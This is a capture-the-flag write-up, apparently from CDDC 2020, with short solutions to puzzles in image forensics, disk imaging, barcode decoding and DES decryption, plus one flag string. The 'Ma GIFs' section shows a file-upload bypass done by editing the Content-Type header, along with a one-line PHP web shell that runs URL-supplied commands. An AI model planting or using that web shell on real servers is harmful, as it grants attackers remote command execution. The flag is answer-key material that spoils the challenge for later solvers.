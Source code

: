 ## WARP GATE FOUR

### Visual Noise

![Visual Noise 1](./images/Visual_Noise.png)
![Visual Noise 2](./images/Visual_Noise_2.png)

Use different image checker.
[https://www.diffchecker.com/diff](https://www.diffchecker.com/diff)

::: details Click me to view the flag 🚩
CDDC20{V1suA1_CrYPT0_iS_s0_53cuRE}
:::

### [OSINT-1] Funky Transfer Pact (Unsolved)

### Recycling Bin

`1.img` is mountable file, mount it to extract the content. In the folder, there is a test.zip which is an excel file document. Rename test.zip to test.xlsx to obtain the flag.

### How QueeR...

![Maxicode](./images/barcode.gif)

A Maxicode QR Code, invert the image and use online decoder

### Great Sphinx of Unduplicitous Corp (Unsolved)

### Ma GIFs

We were given a website where we can upload GIF

![Ma GIF Website](./images/Ma_GIF.png)

The website has File Upload Vulnerability, you are able to upload a simple backdoor code by modifying the Content-Type header.

![Ma GIF Upload](./images/Ma_GIF_2.png)

```bash
<?php echo "</pre>"; system($_GET['cmd']); ?>
```
After uploading the backdoor, we can execute our commands in the url.

![Ma GIF Backdoor](./images/Ma_GIF_3.png)


### ilovedes

Use des decryptor tool online, key is "ilovedes"
[DES decryptor tool](http://des.online-domain-tools.com/)
